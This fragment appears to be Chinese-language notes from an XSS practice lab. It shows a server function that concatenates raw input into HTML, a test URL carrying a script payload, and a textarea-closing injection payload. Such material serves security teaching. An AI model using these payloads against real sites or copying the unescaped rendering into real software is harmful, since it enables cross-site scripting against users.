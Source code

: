 ![image-20220115230436139](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220115230436139.png)

```
[html]
<div><script>alert(1)</script></div>

[server code]
function render (input) {
return '<div>' + input + '</div>'
}

http://xss.test/?input=%3Cscript%3Ealert(1)%3C%2Fscript%3E
```



## 0x01——提前闭合`/>`

```
</textarea><script>alert(1)</script><textarea>
```
